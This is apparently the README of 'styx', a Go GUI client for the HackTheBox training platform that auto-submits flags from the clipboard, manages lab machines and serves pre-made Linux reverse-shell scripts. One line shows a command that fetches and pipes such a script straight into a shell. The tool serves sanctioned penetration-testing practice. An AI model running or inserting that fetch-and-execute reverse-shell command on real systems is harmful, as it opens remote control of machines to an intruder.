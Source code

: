 ![styx river](/styx.png)
# styx
 Styx is an cross-platform GUI interface for HackTheBox made in GoLang. Styx's UI is made with the [giu](https://github.com/AllenDang/giu) library.
 ## Features
 #### **Automatic Flag Submission** 
 Styx will continuously check the machine clipboard for any user or root flags, and will submit them automatically through HackTheBox's APIs. 
 #### **Built-in Reverse Shell Generator** 
 Styx contains a simple HTTP server that listens on port :61337 and returns pre-made reverse-shell scripts for Linux. Allowing you to quickly get a reverse shell with a simple  `curl 10.10.14.10/lin|sh` 
 #### **Machine Management** 
 Styx allows the user to start and stop machines on their own behalf. Flag submission is handled by the **auto flag submission** feature. 
 
